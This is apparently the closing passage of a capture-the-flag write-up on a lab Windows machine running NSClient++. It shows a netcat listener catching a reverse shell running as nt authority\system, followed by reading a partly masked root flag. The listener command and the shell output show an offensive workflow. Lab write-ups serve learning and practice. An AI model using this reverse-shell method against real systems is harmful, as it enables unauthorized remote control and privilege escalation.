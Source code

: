 ```bash
root@darkness:~# rlwrap nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.184.
Ncat: Connection from 10.10.10.184:52351.
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
nt authority\system
```
With the exploit successfully executed we get a reverse-shell as nt authority\system and can read root.txt.
```powershell
C:\Program Files\NSClient++>type C:\Users\Administrator\Desktop\root.txt
86637***************************
```